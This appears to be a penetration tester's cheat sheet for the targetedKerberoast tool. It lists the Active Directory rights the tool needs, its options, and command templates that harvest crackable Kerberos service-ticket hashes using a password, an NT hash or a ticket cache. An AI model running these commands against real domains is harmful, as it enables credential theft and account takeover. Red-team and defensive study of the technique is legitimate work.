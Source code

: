 # targetedKerberoast

% dacl, GenericWrite, https://github.com/ShutdownRepo/targetedKerberoast
#plateform/linux #target/remote #cat/ATTACK/AD/DACL-ABUSE

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
```

## targetedKerberoast (cred)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -p <password> --dc-ip <dc_ip>
```

## targetedKerberoast (pth)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -H <nt_hash> --dc-ip <dc_ip>
```

## targetedKerberoast (ptt)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
export KRB5CCNAME=<ccache>
targetedKerberoast.py -v -d <domain> -k --no-pass --dc-ip <dc_ip>
```


